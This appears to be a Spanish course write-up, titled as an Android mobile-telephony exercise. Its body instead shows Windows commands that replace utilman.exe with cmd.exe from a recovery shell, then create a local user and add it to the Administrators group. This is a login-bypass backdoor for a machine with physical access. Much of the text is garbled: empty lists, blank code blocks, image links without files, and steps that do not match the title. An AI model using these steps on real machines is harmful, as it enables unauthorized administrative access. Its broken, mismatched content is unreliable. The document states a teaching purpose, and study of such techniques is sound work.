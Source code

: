 ```yaml
---
title: MTD - Telefonía móvil 1
published: true
categories: [Android]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Dificil]
---
```



¡Hola! 
Vamos a realizar el primer ejercicio de Telefonía móvil. En este primer ejercicio necesitamos obtener toda la información posible del dispositivo móvil con el que vamos a trabajar. Podremos emplear cualquier recurso a nuestra disposición, siempre que sea legal.

## HERRAMIENTAS UTILIZADAS
* 
* 
* 
*  



* * *

## PRIMEROS PASOS
En primer lugar necesitaremos bajarnos la máquina principal sobre la que vamos a trabajar, para ello yo estoy utilizando el archivo .iso de Android-Studio, la forma de instalación es muy sencilla y no tiene mucha complicación, de todas maneras dejo el link utilizado para la descarga y un vídeo que puede servir de ayuda para la instalación.

<img src="/assets/HTB/Android">



<img src="/assets/HTB/Android/">


<img src="/assets/HTB/Android/">
<img src="/assets/HTB/Android/">
<img src="/assets/HTB/Android/">

* 

* * * 

# DENTRO DE LA TERMINAL


```bash 

```



```bash
DISKPART>
```

<img src="/assets/HTB/Android/">

* 

```bash
DISKPART> 
```



```bash
X:> c:
```


```bash
C:> cd System32
```

```
C:\Windows\System32> move utilman.exe utilman.exe.bak
```

```bash
C:\Windows\System32> copy cmd.exe utilman.exe
```

Seguido de ello escribiremos el comando 

```bash
C:\Windows\System32> Wpeutil reboot
```


<img src="/assets/HTB/Android/">



```bash
C:\Windows\System32> net user "Nombre de usuario que quieras" /add
```

* 

```bash
C:\Windows\System32> net localgroup
```

```bash
C:
```
* 

`net localgroup Administradores Marin /add`


# DENTRO DE NUESTRO SISTEMA OPERATIVO


1. 
2. 
3. 
4. c





* * *

*__Esto es un trabajo realizado para MasterD con fines didácticos, no está enseñado para otro de sus usos.__*
